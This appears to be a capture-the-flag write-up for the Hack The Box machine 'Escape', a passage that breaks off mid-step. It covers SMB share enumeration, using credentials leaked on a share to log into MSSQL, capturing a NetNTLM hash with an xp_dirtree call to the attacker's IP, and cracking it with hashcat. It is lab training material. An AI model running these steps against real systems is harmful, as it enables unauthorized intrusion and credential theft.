 A lot of open ports, we first start with adding the hostnames to our /etc/hosts file - 
![image](https://github.com/user-attachments/assets/5ab18204-d6f4-44eb-b302-394c39997f29)

Before we begin enumerating the box we will run a background all-port nmap scan just to see if we missed any ports
```nmap -p- -T5 -v -Pn -oN nmap/allports 10.10.11.202```

Now we begin enumerating the services
smb with null authentication using netexec

```bash
┌──(captain㉿kali)-[~/Documents/HTB/escape]
└─$ nxc smb 10.10.11.202 -u 'user' -p '' --shares
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.202    445    DC               [+] sequel.htb\user: 
SMB         10.10.11.202    445    DC               [*] Enumerated shares
SMB         10.10.11.202    445    DC               Share           Permissions     Remark
SMB         10.10.11.202    445    DC               -----           -----------     ------
SMB         10.10.11.202    445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.202    445    DC               C$                              Default share
SMB         10.10.11.202    445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.202    445    DC               NETLOGON                        Logon server share 
SMB         10.10.11.202    445    DC               Public          READ            
SMB         10.10.11.202    445    DC               SYSVOL                          Logon server share 
```

Let us enumerate the share Public to see if we find anything interesting
command - ```smbclient \\10.10.11.202\Public``` and hit enter if prompted for password
We see a PDF hosted on the smb share with some interesting info
- User Brandon - brandon.brown@sequel.htb
- SQL credential - PublicUser:GuestUserCantWrite1

Lets try to connect to the sql server and see  if we can find and crack any credentials
We will use impacket-mssqlclient to test connectivity and if we can login
```impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202```

Success !!! We are now in, time to do some enumeration - https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server
In the section - ![Steal NetNTLM hash / Relay attack](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#steal-netntlm-hash-relay-attack)

We follow the instructions and we get a hash for user sql_svc account - 
We run - ```exec master.dbo.xp_dirtree '\\10.10.14.17\any\thing'```
and we get -
![image](https://github.com/user-attachments/assets/4d3fdd4e-cee7-4827-8734-415c3fbf62be)

Lets try and crack the hash using hashcat and the rockyou wordlist
Command - ```sudo hashcat -m 5600 sql_svc.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule```
![image](https://github.com/user-attachments/assets/82e0dbc5-263b-44d3-8609-e3e1ab015f3a)
Success we have credentials for sql_svc 

Going back to our background nmap scan we can see that we missed some ports in the initial scan, one of them is WinRM (5985)
```bash
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf  .NET Message Framing
```
, lets check if this user has access
```bash
┌──(captain㉿kali)-[~/Documents/HTB/escape]
```